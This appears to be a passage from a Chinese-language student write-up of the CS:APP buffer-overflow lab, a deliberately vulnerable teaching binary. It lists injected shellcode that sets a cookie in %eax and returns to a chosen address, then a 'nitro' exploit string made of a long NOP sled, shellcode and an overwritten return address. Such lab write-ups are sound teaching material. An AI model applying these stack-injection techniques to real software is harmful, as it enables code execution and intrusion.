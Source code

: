 可以看到，只需要回到4011ba这个位置就可以，而后将返回值eax修改为cookie即可。

构造攻击指令如下:
\begin{lstlisting}
0:	b8 1b fe f6 51       	mov    $0x51f6fe1b,%eax
5:	68 ba 11 40 00       	pushq  $0x4011ba
a:	c3                   	retq
\end{lstlisting}

\subsection{nitro的破解与分析}

\textbf{文本如下：}
\begin{lstlisting}
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 b8
1b fe f6 51 68 3d 12 40 00 c3
40 3b 68 55 0A
\end{lstlisting}

